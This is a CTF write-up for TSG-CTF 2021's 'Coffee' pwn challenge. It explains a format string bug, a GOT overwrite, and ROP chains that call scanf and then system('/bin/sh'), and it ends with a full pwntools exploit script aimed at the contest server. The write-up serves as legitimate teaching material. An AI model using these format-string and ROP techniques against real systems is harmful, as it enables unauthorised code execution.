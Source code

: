 # Coffee

![](/2021/TSG-CTF/Coffee/images/1.png)

The challenge give a binary file, a c source code, a libc, and a start.sh

Look at the source code

```c
#include <stdio.h>

int x = 0xc0ffee;
int main(void) {
    char buf[160];
    scanf("%159s", buf);
    if (x == 0xc0ffee) {
        printf(buf);
        x = 0;
    }
    puts("bye");
}
```

I see that the program have the `printf(buf)` with cause a format string vul.

## Checking the ELF file

![](/2021/TSG-CTF/Coffee/images/2.png)

Program enable stack canary, NX, but not PIE

## Analysis

I have a format string vulnerability (fmt) in printf. I can write or leak what ever i want.

But after printf call, it set the global value x = 0, so if i want to call main back, and use fmt again, i need to reset value x to 0xc0ffee.

## My ideal

I can leak or overwrite something with fmt, but because the aslr, i didn’t know about the libc base, so if i want to use a technead need libc (ie ret2libc, one_gadget, ...) i need one time for leak and one time for exploit, but I mentioned before, global value X will prevent me to do that.

Checking the static ELF file, i cannot find anything can give me a shell. No win function, no system, no segment with both write and execute (to use shellcode) and not enough gadget for making a ropchain to call execve(“/bin/sh”, 0, 0).

So that I will need to use things in libc. So I need to find a way to set x = 0xc0ffee and call main back.

Note that i cannot use fmt to assign a value to x, because x = 0 is assigned after the printf statement, so this is meaningless.

![](/2021/TSG-CTF/Coffee/images/3.png)

## Leaking libc

I use a very simple way to leak libc base, leak the return address of main function, which is the address of `<__libc_start_main + 243>` (it depend on version of libc, I check it with the libc the author gived.

## Find way to set x = 0xc0ffee

I use ROPgadget to find the gaget can do that for me. Unfortunately, there is no mov [r64] r64 in the static ELF (because i don’t know about libc base in the first time attemp)

So next I look at the function and plt function, there is just one function that can give me input (or may be i couldn't find)

![](/2021/TSG-CTF/Coffee/images/4.png)

I can use the `scanf()` to input value to x, the format will `scanf(format, &x)`. 

![](/2021/TSG-CTF/Coffee/images/5.png)

2 gadget will help I to set paramater to scanf.

The next thing to do is find a valid format string to give to scanf. It can be scanf(“%d”, &x), scanf(“%s”, &x), scanf(“%8d”, &x), ...

There is a string “%159s” in the ELF i can use to give to scanf, but unfortunately, address of this string have the 0x20 and it will stop the scanf T_T.

![](/2021/TSG-CTF/Coffee/images/6.png)

Because the PIE is disable and the RELRO is not fully-relro, so i can overwrite to GOT table. So I decide to use the fmt to write “%s” in some static writeable memory in ELF. I chose to write it to the GOT segment

![](/2021/TSG-CTF/Coffee/images/7.png)

After write to address 0x404008 string “%s”, i just need to pop that to rdi using `pop rdi; ret`.

So that i have a rop_chain can help me set x = 0xc0ffee

`Ropchain = [pop rdi; ret][0x404008][pop rsi; pop r15; ret] [&x][0][scanf_plt]`

## Return to ropchain, and call main again

I already have the ropchain to set x, but how i can run it?

Look at source code again, because i didn’t know about stack base, to the puts() will be the only change to redirect code. I can use fmt to overwrite the puts_got, and make the program run our rop_chain.

There is a special gadget in the `libc_csu_init`, it is also my favorite gadget because it very useful in many case

![](/2021/TSG-CTF/Coffee/images/8.png)

Look at the stack if i overwrite the puts_got to the pop_6 gadget, and see what I mean

![](/2021/TSG-CTF/Coffee/images/9.png)

After the printf is call, the yellow part will overwrite puts_got and write string “%s” to another entry in GOT

When the function call puts (pop_6), the program push the return address of main in stack (green border). When it pop 6 time, it reach the red part, which is our payload, and call scanf(“%s”, &x), then return to main. I input “\xee\xff\xc0\x00” to set value of x.

I just added some ret_gadget to allign the stack (because i run in ubuntu 64 bit, so rsp & 0xf == 0 before calling function).

I think someone will ask me why I put 2 address for overwrite format string (blue part) at the end. The reason because pop_6 is the maximum amount i can pop, if I put it before the red part, I can not run a ROPchain.

## Getting the shell

So after i leak a libc, and use the ropchain to set x = 0xc0ffee and call main again, i can use the fmt bug again. In this time, i already know the libc base, so that is ez.

I just replace the ROPchain in previous step with

`[ret][ret][pop_rdi; ret][address of bin_sh in libc][system]`

to run system(“/bin/sh”) and get a shell. 2 ret_gadget in the beginnin because I don’t want to change puts_got to pop_4 again.

## Final exploit.

  - First, i input the string use for format string bug, i split it in 2 part, part 1 for leak libc, and overwrite puts_got to pop_6 and write string “%s” in another entry of GOT, part 2 is our ROPchain to call scanf(“%s”, &x) and ret to main.

  - Second, i input the string “\xee\xff\xc0\x00” into scanf

  - Third, calculate the system and /bin/sh from the libc_start_main leak and input the ropchain to get a shell

File [solve.py](/2021/TSG-CTF/Coffee/solve.py)

```python
from pwn import *

#s = process('./coffee')
#raw_input('DEBUG')

s = remote('34.146.101.4', 30002)

x_value = 0xc0ffee
x_address = 0x404048
puts_got = 0x404018
main = 0x401196
leak = '%29$llx'
leak_offset = 0x270b3
system_offset = 0x55410
bin_sh_offset = 0x1b75aa
writeable = 0x404008
scanf_plt = 0x4010a0
pop_rsi_r15 = 0x401291
pop_rdi = 0x401293
ret = 0x40101a
pop_6 = 0x40128a

payload = b'%020$n' + b'%29$llxA' + b'%4733x' + b'%19$hn' + b'%24731x' + b'%020$n' + b'\x00'

payload += p64(pop_rdi) + p64(writeable) + p64(pop_rsi_r15) + p64(x_address) + p64(0) + p64(scanf_plt) + p64(ret) + p64(main)
payload += p64(puts_got) + p64(writeable)

s.sendline(payload)

libc_base = int(s.recvuntil(b'A').decode('utf-8')[:-1], 16) - leak_offset

s.sendline(p32(x_value))

bin_sh = bin_sh_offset + libc_base
system = system_offset + libc_base

payload = b'A' * 31 + b'\x00'
payload += p64(ret) + p64(ret) + p64(pop_rdi) + p64(bin_sh) + p64(system)

s.sendline(payload)

s.interactive()
```

`flag: TSGCTF{Uhouho_gori_gori_pwn}`
